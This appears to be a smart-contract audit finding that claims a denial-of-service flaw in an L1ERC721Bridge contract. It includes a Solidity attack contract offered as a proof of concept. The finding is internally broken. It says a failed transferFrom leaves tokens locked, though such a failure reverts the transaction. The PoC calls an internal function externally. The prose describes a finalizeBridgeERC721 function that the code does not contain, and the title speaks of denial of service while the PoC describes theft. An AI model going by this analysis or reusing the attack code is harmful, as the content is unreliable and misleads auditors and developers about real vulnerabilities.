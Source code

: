 notyet.eth

false

# Potential Denial of Service Attack

## Summary
The L1ERC721Bridge contract has a vulnerability that can allow an attacker to lock and freeze any ERC721 token in the contract, rendering it unusable.
## Vulnerability Detail
The vulnerability lies in the _initiateBridgeERC721 function, where tokens are locked into the bridge using the deposits mapping. In this function, if the transferFrom call fails for any reason, the tokens will remain locked in the bridge and cannot be used or withdrawn by their rightful owners. The function does not provide any mechanism to unlock the tokens or revert the transaction, leaving them permanently frozen in the bridge.
## Impact
An attacker can exploit this vulnerability to render any ERC721 token unusable by initiating a bridge transaction with invalid parameters, causing the transferFrom call to fail. Once the tokens are locked in the bridge, their owners will be unable to use or withdraw them, causing financial loss and frustration.
## Code Snippet
function _initiateBridgeERC721(
    address _localToken,
    address _remoteToken,
    address _from,
    address _to,
    uint256 _tokenId,
    uint32 _minGasLimit,
    bytes calldata _extraData
) internal override {
    require(_remoteToken != address(0), "L1ERC721Bridge: remote token cannot be address(0)");

    // Construct calldata for _l2Token.finalizeBridgeERC721(_to, _tokenId)
    bytes memory message = abi.encodeWithSelector(
        L2ERC721Bridge.finalizeBridgeERC721.selector,
        _remoteToken,
        _localToken,
        _from,
        _to,
        _tokenId,
        _extraData
    );

    // Lock token into bridge
    deposits[_localToken][_remoteToken][_tokenId] = true;
    IERC721(_localToken).transferFrom(_from, address(this), _tokenId);

    // Send calldata into L2
    MESSENGER.sendMessage(OTHER_BRIDGE, message, _minGasLimit);
    emit ERC721BridgeInitiated(_localToken, _remoteToken, _from, _to, _tokenId, _extraData);
}
In this code snippet, the tokens are locked into the bridge using the deposits mapping, and the transferFrom function is used to transfer ownership of the token to the bridge contract. If the transferFrom function fails for any reason, the tokens remain locked in the bridge, causing the vulnerability to be exploited.
## Tool used

Manual Review

## POC
attacker would need to call the _initiateBridgeERC721 function with a fake _remoteToken address. This would allow the attacker to lock the victim's ERC721 token into the bridge by setting deposits[_localToken][_remoteToken][_tokenId] = true, where _localToken is the victim's ERC721 token address, _remoteToken is the attacker's fake address, and _tokenId is the victim's token ID.

The attacker would then trigger the bridge finalization process by calling the finalizeBridgeERC721 function on the attacker's own ERC721 bridge contract with the same _tokenId and _extraData values. Since the onlyOtherBridge modifier is only checking if the function is called by the legitimate bridge contract, this check would pass for the attacker's contract as well.

As a result, the victim's ERC721 token would be transferred to the attacker's intended recipient address on the other network instead of the victim's intended recipient address.

Here's an example proof of concept code that demonstrates this exploit:
pragma solidity 0.8.15;

contract AttackERC721Bridge {
    address public L1Bridge;

    constructor(address _L1Bridge) {
        L1Bridge = _L1Bridge;
    }

    function initiateAttack(address _localToken, address _from, address _to, uint256 _tokenId, bytes calldata _extraData) external {
        bytes memory message = abi.encodeWithSelector(
            bytes4(keccak256("finalizeBridgeERC721(address,address,address,address,uint256,bytes)")),
            address(this),
            _localToken,
            _from,
            _to,
            _tokenId,
            _extraData
        );

        // Lock token into bridge
        (bool success,) = L1Bridge.call(
            abi.encodeWithSelector(
                bytes4(keccak256("_initiateBridgeERC721(address,address,address,address,uint256,uint32,bytes)")),
                _localToken,
                address(this),
                _from,
                _to,
                _tokenId,
                0,
                ""
            )
        );
        require(success, "AttackERC721Bridge: failed to initiate bridge");

        // Send calldata into L2
        (success,) = L1Bridge.call(
            abi.encodeWithSelector(
                bytes4(keccak256("sendMessage(address,bytes,uint32)")),
                address(this),
                message,
                0
            )
        );
        require(success, "AttackERC721Bridge: failed to send message");
    }
}
In this proof of concept code, the attacker deploys a contract that has a finalizeBridgeERC721 function that takes the same parameters as the legitimate bridge contract's finalizeBridgeERC721 function. The initiateAttack function on this contract locks the victim's ERC721 token into the bridge by calling _initiateBridgeERC721 on the legitimate bridge contract with a fake _remoteToken address (which is the address of the attacker's contract). The attacker then triggers the bridge finalization process by calling finalizeBridgeERC721 on the attacker's contract with the same _tokenId and _extraData values.




